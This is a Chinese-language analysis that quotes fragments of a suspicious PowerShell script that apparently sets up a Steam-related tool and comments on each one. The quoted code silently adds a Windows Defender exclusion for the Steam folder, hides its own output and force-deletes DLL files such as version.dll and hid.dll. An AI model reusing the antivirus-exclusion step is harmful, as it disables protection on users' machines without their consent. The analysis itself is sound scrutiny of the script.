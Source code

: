 ```powershell
    if (!(Test-Path $localPath)) {
        md $localPath | Out-Null
        if (!(Test-Path $localPath)) {
            New-Item $localPath -ItemType directory -Force | Out-Null
        }
    }
```

检查`C:\Users\<用户名>\AppData\Local\Steam`是否存在,若不存在则使用`mkdir`尝试创建

创建后再次检测,若依旧不存在,则使用`New-Item`再次创建

分析:两次创建都使用`Out-Null`抑制日志输出防止用户发现?



第69~74行

```powershell
    try{
        Add-MpPreference -ExclusionPath $steamPath -ErrorAction Stop
        Start-Sleep 3
    }catch{}

    Write-Host "[Result->0          OK]" -ForegroundColor:green
```

将steam路径添加至`Windows Defender`白名单中**(极高危操作!)**

输出绿色提示`[Result->0          OK]`告知用户进度

分析:防止`Windows Defender`误杀后续的文件,但是对添加白名单失败没做任何处理



第76~99行

```powershell
    try{
        $d = $steamPath + "/version.dll"
        if (Test-Path $d) {
            Remove-Item $d -Recurse -Force -ErrorAction Stop | Out-Null #清除文件
        }
        $d = $steamPath + "/user32.dll"
        if (Test-Path $d) {
            Remove-Item $d -Recurse -Force -ErrorAction Stop | Out-Null #清除文件
        }
        $d = $steamPath + "/steam.cfg"
        if (Test-Path $d) {
            Remove-Item $d -Recurse -Force -ErrorAction Stop | Out-Null #清除文件
        }
        $d = $steamPath + "/hid.dll"
        if (Test-Path $d) {
            Remove-Item $d -Recurse -Force -ErrorAction Stop | Out-Null #清除文件
        }
        
        $d = $steamPath + "/hid"
    }catch{
        $TextShow = [System.Text.Encoding]::UTF8.GetString([Convert]::FromBase64String("W+W8guW4uOaui+eVmeivt+aMieeFp+i3r+W+hOWIoOmZpOaWh+S7tl0tPg=="))
        Write-Host "$TextShow[$d]" -ForegroundColor:red
        return;
    }
```
